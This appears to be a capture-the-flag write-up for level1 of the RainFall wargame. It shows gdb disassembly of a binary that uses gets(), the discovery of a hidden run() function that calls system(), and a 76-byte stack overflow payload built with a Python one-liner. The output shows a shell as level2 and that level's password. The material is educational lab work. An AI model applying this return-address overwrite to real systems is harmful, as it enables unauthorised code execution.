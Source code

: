 # level1

## exploring the binary
```shell
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
phantom
```
After execution, the program waits for input and then terminates.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```
The main functions calls <code>gets()</code> functions which reads the input. No other functions are called, so we explore out options.
```shell
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
There is a function <code>run()</code> which could potentially be our way to level2.
```shell
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```
Call to <code>system()</code> supports this theory. We can use the common buffer overflow exploit to access the <code>run()</code> function and trigger the <code>/bin/sh</code> of level2.

## buffer overrun attack
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)).
``` shell
level1@RainFall:~$ gdb ./level1
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa[...]Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level1/level1 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa[...]Ag2Ag3Ag4Ag5Ag'
```
This way, we find out that the offset is 76. By replacing the return address value with the memory address of the <code>run()</code> function, we can manipulate the program flow to ensure its execution.
``` shell
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```
To ensure that the memory address is represented correctly in the payload, we need to use the little-endian format:
``` shell
\x44\x84\x04\x08
```
When using Python, we can achieve the same result by reversing the order of the bytes:
``` shell
\x08\x04\x84\x44[::-1]
```

## exploit
``` shell
level1@RainFall:~$ python -c 'print "F" * 76 + "\x08\x04\x84\x44"[::-1]' > /tmp/flag1
level1@RainFall:~$ cat /tmp/flag1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
